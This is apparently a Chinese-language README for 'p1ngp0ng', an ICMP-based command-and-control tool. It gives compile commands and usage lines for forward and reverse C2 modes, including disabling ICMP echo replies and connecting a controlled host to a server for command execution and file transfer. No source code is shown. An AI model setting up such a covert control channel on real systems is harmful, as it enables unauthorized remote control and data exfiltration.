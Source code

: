 # p1ngp0ng                
轻量级ICMP C2工具                
                
# 依赖                
Linux环境与GCC套件。                
                
# 功能：                
**p1ng：**                
p1ng，实现C2服务器正向连接被控端。目前实现了对客户端的命令控制与文件上传下载。明文传输，未加密。                
                
**p0ng：**                
p0ng，实现被控端反向连接C2服务器。目前实现了对客户端的命令控制与文件上传。明文传输，未加密。                
                
# 编译                
gcc p1ng.c -o p1ng                
gcc p0ng.c -lpthread -o p0ng                
                
# 使用                
**p1ng：**                
c2服务端：p1ng -S -c ${client_ip}                
c2被控端：echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all                
&nbsp;&nbsp;&nbsp;&nbsp;p1ng -C                
![main-panel](https://github.com/aplyc1a/p1ngp0ng/blob/master/logo.png)                
![p1ng-simple-usage](https://github.com/aplyc1a/p1ngp0ng/blob/master/p1ng_usage.png)                
                
**p0ng：**                
c2服务端：echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all         
&nbsp;&nbsp;&nbsp;&nbsp;p0ng -S                
c2被控端：                
p0ng -C -s ${server_ip}               
